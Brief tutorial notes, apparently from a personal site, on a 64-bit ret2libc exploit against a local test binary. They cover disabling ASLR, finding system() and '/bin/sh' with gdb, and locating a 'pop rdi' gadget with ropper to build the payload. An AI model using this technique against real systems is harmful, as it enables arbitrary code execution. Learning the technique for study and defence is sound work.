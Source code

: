 ```yaml
---
layout: default
title: 64bit-Ret2Libc
---
```


<h2>{{ page.title }}</h2>

Precondition 

1. Disable ASLR: echo 0 > /proc/sys/kernel/randomize_va_space
2. The directory storing libc.so is known.

0x1 If "-z execstack" is off
---
Since the stack is not executable, we need to find gadgets(e.g. pop rdi; ret).

0x2 Address needed
---
1. Address 'a' of system() function
```
(gdb) b main     /*set breakpoint at main funtion*/
(gdb) run bof    /*execute the target program*/
(gdb) p system   /*print address of system()*/
```

2. Address 'b' of string “/bin/sh”
```
(gdb) p __libc_start_main
(gdb) find 0x7ffff7a5b1c0, +2200000, "/bin/sh" /*0x7ffff7a5b1c0 is the address of __libc_start_main*/
(gdb) x/s 0x7ffff7b9c879 /*0x7ffff7b9c879 is the address returned by last line, return value for this line should be "/bin/sh"*/
```

3. Address 'c' of “pop rdi;ret” (in X_64 RDI, RSI, RDX, RCX, R8 and R9 stores arguments)
```
ropper --file /lib/x86_64-linux-gnu/libc-2.24.so --search "pop rdi" /*search gadgets*/
0x000000000002079b: pop rdi; pop rbp; ret;  /*0x2079b is the offset of the gadgets in libc.so*/
```

4. payload is trash + c + b + a



<h2>{{ page.date | date_to_string }}</h2>
